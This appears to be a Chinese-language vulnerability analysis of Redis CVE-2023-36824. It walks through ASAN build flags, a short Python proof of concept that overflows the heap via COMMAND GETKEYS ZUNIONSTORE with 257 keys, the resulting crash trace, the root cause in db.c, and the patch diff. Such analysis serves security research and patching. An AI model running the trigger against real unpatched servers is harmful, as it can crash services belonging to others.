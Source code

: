 ```yaml
---
title: "Redis漏洞分析，命令篇"
excerpt: ''

collection: analysis
category: dbms
permalink: /analysis/redis-cmd
tags: 
  - redis

layout: single
read_time: true
author_profile: false
comments: true
share: true
related: true
---
```


![](../images/analysis/redis/redis.png)

## 分析流程

对Redis漏洞分析的流程分为4个步骤：

1. 寻找Moderate、High级别的漏洞，寻找脆弱版本和修复版本。
2. 编译源码，指定libc、ASAN选项。
``` shell
make MALLOC=libc CFLAGS="-fsanitize=address -fno-omit-frame-pointer -O0 -g" LDFLAGS="-fsanitize=address" -j4
```
3. 寻找PoC，没有则寻找Diff。
4. 从4个方面分析漏洞：前置知识、PoC、漏洞成因、补丁。

## CVE-2023-36824 堆溢出，可能导致RCE

披露时间：2023年7月
复现版本：7.0.8
修复版本：7.0.12

| 严重程度 | CWE | 攻击向量 | 攻击复杂度 | 需要权限 |
| :----:  | :----: | :----: | :----: | :----: |
| 7.4 / 10 |  CWE-122 Heap-based Buffer Overflow | Local | High | None |
| | CWE-131 Incorrect Calculation of Buffer Size |

### 一、前置知识

Redis命令键规范用于管理键的属性，比如界定键数量的first、last、step，开始搜索键的模式begin_search_type等等。
在一个复合命令COMMAND GETKEYS中这样的命令中，内部情况如下：
``` shell
COMMAND GETKEYS ZUNIONSTORE target key1 key2 key3
cmd->key_specs_num = 2
(last-first+1) = 1
(last-first+1) = 3
```
key_specs_num指示了命令规范的数量，其中每个规范的numkeys分别为1和3。

### 二、PoC

使用helper命令 *COMMAND GETKEYS* 与multi-keys命令 *ZUNIONSTORE* 构造长度大于256个键的PoC:
``` python
import pexpect

cli = "src/redis-cli"
proc = pexpect.spawn(cli)

cmd = 'COMMAND GETKEYS ZUNIONSTORE target '

num = 257
cmd += str(num) + ' '

for i in range(num):
    key = 'key' + str(i)
    cmd += key + ' '

proc.sendline(cmd)
proc.interact()
```
PoC触发了堆溢出，发生在src/db.c:1860，getKeysUsingKeySpecs函数中。
``` shell
==7965==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x51d000006c88 at pc 0x557d4324e07c bp 0x7fff1ac93e90 sp 0x7fff1ac93e88 WRITE of size 4 at 0x51d000006c88 thread T0
#0 0x557d4324e07b in getKeysUsingKeySpecs /opt/redis-7.0.8/src/db.c:1860
#1 0x557d4324e2ac in getKeysFromCommandWithSpecs /opt/redis-7.0.8/src/db.c:1906
#2 0x557d431ef637 in getKeysSubcommandImpl /opt/redis-7.0.8/src/server.c:4833
#3 0x557d431e6b51 in call /opt/redis-7.0.8/src/server.c:3374
#4 0x557d431eb7fc in processCommand /opt/redis-7.0.8/src/server.c:4008
#5 0x557d43229313 in processCommandAndResetClient /opt/redis-7.0.8/src/networking.c:2469
#6 0x557d43229313 in processInputBuffer /opt/redis-7.0.8/src/networking.c:2573
#7 0x557d4323186f in readQueryFromClient /opt/redis-7.0.8/src/networking.c:2709
#8 0x557d4340e294 in callHandler /opt/redis-7.0.8/src/connhelpers.h:79
#9 0x557d4340e294 in connSocketEventHandler /opt/redis-7.0.8/src/connection.c:310
#10 0x557d431cfcb9 in aeProcessEvents /opt/redis-7.0.8/src/ae.c:436
#11 0x557d431d224c in aeProcessEvents /opt/redis-7.0.8/src/ae.c:362
#12 0x557d431d224c in aeMain /opt/redis-7.0.8/src/ae.c:496
#13 0x557d431c40ac in main /opt/redis-7.0.8/src/server.c:7156
#14 0x7fd528ef4c89 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
#15 0x7fd528ef4d44 in __libc_start_main_impl ../csu/libc-start.c:360
#16 0x557d431c5b70 in _start (/opt/redis-7.0.8/src/redis-server+0x10eb70) (BuildId: bae57496e088c12a62191271c8ba8cbf422ffc71)
```

### 三、漏洞成因

在src/db.c:1860，getKeysUsingKeySpecs函数中，堆溢出发生在keys的索引时。分析函数逻辑，在for循环中，k是不断增加的，所以keys的空间也要随之增加，而getKeysPrepareResult函数是根据当前的count进行调整的。因此发生堆溢出，溢出的大小为k，在这里k = count = 1。
``` c
int getKeysUsingKeySpecs(struct redisCommand *cmd, robj **argv, int argc, int search_flags, getKeysResult *result) {

    int j, i, k = 0, last, first, step;
    keyReference *keys;

    // cmd->key_specs_num = 2
    for (j = 0; j < cmd->key_specs_num; j++) {
        ...

        // count = 1
        // count = 257
        int count = ((last - first)+1);
        keys = getKeysPrepareResult(result, count);

        for (i = first; i <= last; i += step) {
            ...

            // src/db.c:1860, 堆溢出
👉          keys[k].pos = i;
            keys[k++].flags = spec->flags;
        }
        ...
    }

    result->numkeys = k;
    return k;
}
```

分析getKeysPrepareResult函数逻辑，由于getKeysUsingKeySpecs函数在for循环后才对result->numkeys进行赋值，因此函数中的memcpy不会执行。因此，即使利用k修补了getKeysUsingKeySpecs函数的堆溢出，这里仍然会产生逻辑漏洞。

``` c
keyReference *getKeysPrepareResult(getKeysResult *result, int numkeys) {

    /* Resize if necessary */
    if (numkeys > result->size) {
        if (result->keys != result->keysbuf) {
            /* We're not using a static buffer, just (re)alloc */
            result->keys = zrealloc(result->keys, numkeys * sizeof(keyReference));
        } else {
            /* We are using a static buffer, copy its contents */
            result->keys = zmalloc(numkeys * sizeof(keyReference));

            // result->numkeys = 0
👉          if (result->numkeys)
                memcpy(result->keys, result->keysbuf, result->numkeys * sizeof(keyReference));
        }
        result->size = numkeys;
    }

    return result->keys;
}
```

### 四、补丁

补丁利用result->numkeys取代k，同时修复了堆溢出、逻辑漏洞。

``` c
@@ -1937,7 +1938,7 @@ int getKeysUsingKeySpecs(struct redisCommand *cmd, robj **argv, int argc, ...) {

-   int j, i, k = 0, last, first, step;
+   int j, i, last, first, step;
    keyReference *keys;

+   result->numkeys = 0;

    for (j = 0; j < cmd->key_specs_num; j++) {
        ...

        int count = ((last - first)+1);
-       keys = getKeysPrepareResult(result, count);
+       keys = getKeysPrepareResult(result, result->numkeys + count);

        for (i = first; i <= last; i += step) {
            ...

-           keys[k].pos = i;
-           keys[k++].flags = spec->flags;
+           keys[result->numkeys].pos = i;
+           keys[result->numkeys].flags = spec->flags;
+           result->numkeys++;
        }
        ...
    }

-   result->numkeys = k;
-   return k;
+   return result->numkeys;

```



